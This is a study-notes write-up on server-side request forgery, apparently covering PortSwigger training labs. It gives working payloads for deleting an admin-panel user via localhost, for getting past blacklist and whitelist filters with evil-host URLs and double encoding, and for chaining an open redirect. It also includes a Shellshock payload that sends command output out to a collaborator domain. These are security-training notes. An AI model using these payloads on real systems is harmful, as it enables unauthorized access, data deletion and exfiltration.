 # Server-side request forgery (SSRF)

Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.
A successful SSRF attack can often result in unauthorized actions or access to data within the organization. In some situations, the SSRF vulnerability might allow an attacker to perform arbitrary command execution.

## Finding hidden attack surface for SSRF vulnerabilities
- Partial URLs in requests
- URLs within data formats
- SSRF via the Referer header

## Blind SSRF
Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

### LAB: Basic SSRF against the local server

    Change the POST /product/stock request's body to:
    stockApi=http://localhost/admin/delete?username=carlos

### LAB: SSRF with blacklist-based input filter
- Use an alternative IP representation of 127.0.0.1, such as 2130706433 (decimal value: (127 × 256³) + (0 × 256²) + (0 × 256¹) + (1 × 256⁰) = 2130706433), 017700000001 (octal representation), or 127.1.
- Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.
    
    `stockApi=http://LoCalHost/admIn/delete?username=carlos`

### LAB: SSRF with whitelist-based input filter
- You can embed credentials in a URL before the hostname, using the @ character. For example:
`https://expected-host:fakepassword@evil-host`
- You can use the # character to indicate a URL fragment. For example:
`https://evil-host#expected-host`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
`https://expected-host.evil-host`
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
- You can use combinations of these techniques together: 

    `stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos`
-> How this URL bypasses the white-list: (`%2523` is the double-encoding of `#`)
    - First the server decodes the URL to `http://localhost%23@stock.weliketoshop.net/admin/delete?username=carlos` and considers `stock.weliketoshop.net` as the valid host and everything after it (`/admin/delete?username=carlos`) as the actual request path.
    - Since the fragment (`#`) is before `@`, it only affects username parsing, not the request path.
    - The real HTTP request made is: 
    `GET /admin/delete?username=carlos HTTP/1.1\r\nHost: localhost`

### LAB: SSRF with filter bypass via open redirection vulnerability
Click "next product" and observe that the path parameter is placed into the `Location` header of a redirection response, resulting in an open redirection.
Change the `POST /product/stock` body to:

    stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

### LAB: Blind SSRF with out-of-band detection
The server will track client's info by analyzing the URL specified at the Referer header. It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied domain, but no subsequent HTTP request.

### LAB: Blind SSRF with Shellshock exploitation
In CGI (Common Gateway Interface) scripts, when a web server (e.g., Apache) executes a script, it passes HTTP request headers as environment variables. This means that headers like `User-Agent`, `Host`, `Cookie`, and `Referer` are converted into environment variables before running the script. When `Bash` starts a new shell session, it processes exported environment variables before executing the script. This is where Shellshock happens.
Replace the `User-Agent` string in the Burp Intruder request with the Shellshock payload: 

    () { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN

This (CVE-2014-6271) performs nslookup to your domain. Change the `Referer` header to `http://192.168.0.1:8080` and start a Sniper attack for every IP in the subnet.